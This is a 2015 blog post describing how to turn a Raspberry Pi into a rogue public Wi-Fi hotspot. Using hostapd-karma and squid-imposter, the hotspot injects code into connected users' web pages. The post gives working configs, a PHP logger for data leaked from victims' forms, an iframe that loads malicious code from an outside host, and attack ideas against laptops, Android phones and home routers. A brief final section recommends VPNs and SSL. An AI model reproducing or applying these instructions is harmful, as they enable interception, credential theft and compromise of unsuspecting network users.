








|| Drive by Pi with HTML injection, author: xor-function || 10/08/2015 || Back to main
This post will cover the implications of knowingly or unknowingly connecting to and using a
hostile network without encrypted tunneling (ssl, vpn, etc).
First I will go over the platform details.
Then I'll go over how these attacks are performed and how far (bad) it can go.
Last, cover some ways of defending against these attacks.
The raspberry pi has been worked on to give it the ability to connect to the Internet and to produce it's own hot-spot.
Also it has a power source making it truly portable.
The Raspberry Pi
The Hardware:
Anker pro battery
TL-WN722N wireless adapter (compatible with hostapd)
Rpi and generic case
Android cell phone with data connection (Internet connection)

The Software
The image that is used does not matter as long as you can install the necessary packages,
however I recommend choosing a Debian based image due to the use of apt.
Dnsmasq (our dns/dhcp/tftp-pxe server)
Apache2
PHP5 & mod_php
Squid (web-caching proxy)
Hostapd (responsible for the AP)
Installing Dnsmasq is simple just use apt-get install dnsmasq. Just make sure the ip address for the
wlan card is set to static in /etc/network/interfaces before dnsmasq runs otherwise it will fail subtly.
There just need to be a modification in the /etc/default/dnsmasq file pointing to a /etc/dnsmasq.conf,
also comment out were it points to /etc/dnsmasq.d.
Example /etc/dnsmasq.conf
interface=wlan0
server=208.67.222.220 ## Opendns ip address (optional)
dhcp-range=wlan0,10.0.0.100,10.0.0.150,255.255.255.0,12h
no-resolv
log-facility=/var/log/dnsmasq.log
log-queries
For this dns server to work properly the interface in which it is going to listen which in this case is wlan0.
So the interface needs to be up with a ip address that corresponds to the existing dhcp-range subnet.
An working ip for the range in the above example config would be 10.0.0.1 /24
Installing apache and php5 is a lot simpler than it may seem at first since were going to use these
services as the come out of the box using apt-get.
Installing Squid and Impostor will be the same as dnsmasq, although the configuration will be simpler since
the squid script that is going to be used provides an optimized one. After squid is finished installing download
squid-imposter from git hub using the git clone command and its available here . Follow the instructions included
in the cloned directory as it includes the configuration file for squid.
For hostapd though your gonna need to it’s sources as were going to need to apply a patch called karma, thus creating
hostapd-karma. The instructions to do this is included in the read me file with the patch here, now a simple .conf
file to get you on going.
hostapd.conf
interface=wlan0
driver=nl80211
ssid=Public-wifi
channel=11 # variable to location
auth_algs=3
The phone tethering is probably the simplest thing to do just make sure the pi is ON when you connect to the pi's
usb as the phone won't detect it causing the usb tethering option to be grayed out. Also this may not work due to
limitations imposed on your cell by your service provider. Once tethered all you have to do is check to see if your
cell is now detected as an interface.
My phone was detected as usb0

How it works
The manner this device will perform an attack is to appending code to a target web page being loaded by a clients
web browser. As you can see this is not a simple point and click, but it does allow XSS attacks to be performed
at will on the client side without having to compromise the server hosting the requested web page. This is still
not without limitation as only machines connected to this LAN created by the Pi (acting as a router) are vulnerable.
Hostapd-Karma (optional)
What this patched version of hostapd does simply put is impersonate any open access point which it receives a probe
request from a client. This make association to this access point transparent, also since mobile phones usually
prefer using wifi for data if it's enabled also are susceptible to this. All theses attacks are pretty much
transparent when using wifi near one of theses devices. This is optional though as one can just offer this hotspot
as a public one (attwifi).
Squid-Imposter
This is essentially an squid html rewrite script with a lot of work put into it, the neat thing that it does
besides just client-side code injection is it also leverages html5 caching meaning it requests the browser to cache
the altered content pretty much making it persistent.
Example scenarios
*Against laptops
Event sniffing with JavaScript injection. This can easily be done by appending a get element function then
leaking the values as a get request for image tags to a php script hosted on the pi which logs the request.
One can also append fields to forms to acquire additional information from a victim.
heres some crappy php code as an example:
----php
file_put_contents("/var/www/get.log",PHP_EOL . $_SERVER['QUERY_STRING'], FILE_APPEND);
sleep(1);
header('HTTP/1.0 204 No Content');
header('Content-Type: image/jpeg');
----php
The difficulty would still depend on the manner forms are processed by the web site
Remote access through social engineering or exploitation can be achieved by appending an iframe to a website
hosting malicious code whether it be against Java or flash the goal of either will be the same, remote code execution.
A simple way one can demonstrate this is using the setoolkit to generate a clone web page hosting a Java applet.
It doesn't matter which as long as it is not one already defined as a target domain by squid-imposter. The computer
which hosts this page can be then loaded on victims browsers automatically with an iframe.
Example: super easy HTML injection
content of target.append
iframe src="http://some-ex-domain.biz" width="1" height="1" name="lolz"



*Against mobile devices
Social engineering attacks can be done with ease without having to have any working exploit against
the target mobile OS. A simple example against android would be for one to inject a JavaScript prompt
into a web page which input is then logged.

Exploitation against web-kit and applications that use webview so it is possible to use existing exploits
on older versions of android 4.1 for example would be vulnerable to the force installing of apks since
one can auto load from a link on the clients behalf using JavaScript.
Attacks on webview in the Android System
http://www.cis.syr.edu/~wedu/Research/paper/webview_acsac2011.pdf
*Against residential routers
Iframe injection with html5 caching can make it possible to mount attacks against home/SOHO routers.
An example of this would be a dns rebinding attack, which would require a web server hosting a web page with
malicious JavaScript on the WAN. A demonstration of this could be performed using the PoC software called
rebind located here. The iframe will be injected into the target domain and cached on the victims browser.

Once the victim disconnects from the hostile network and connects to a trusted one, the one at home for example.
Once the victim browses to the same web page that was cached by impostor the attack will execute against
the then current gateway, the victims router. Giving an attacker access to the routers administration panel
over the Internet. Giving them the ability to alter the DNS server used and or directing the router traffic
to a malicious web application proxy. Using a device like this (Rpi) as a vector is not useful for
mass exploitation but is very useful for specialized targeting.
Attack Overview
The raspberry pi is not the main attacking device it instead functions as a means of creating a greater
attack surface (client-side web browser scripting) by exploiting the typical network routing structure.
The functions performed by the rpi are not limited to just this one physical platform. Any device capable of
routing and wireless access point creation with the used software packages can performed the same functions.
Also hi power wlan cards in a mini-itx platform may be of more practical to use
Making yourself resilient
The simple fact one must realize in order to begin making effective decisions
is that any unknown network is pretty much hostile.

For example in the image above, any one of these hops has the capability, witting or unwittingly of directing
HTTP traffic to a web proxy like squid.
This also is a warning against using random anonymous proxy's found on the Internet as they also can be used
to inject evil code into your web pages. The only real solutions to this are awareness and the consistent use
of encryption for example SSL and VPNs when on the road as this reduces the success of these attacks.
Also the use of SSL is important when using tor as it helps prevent any sniffing of the traffic going out
an exit node.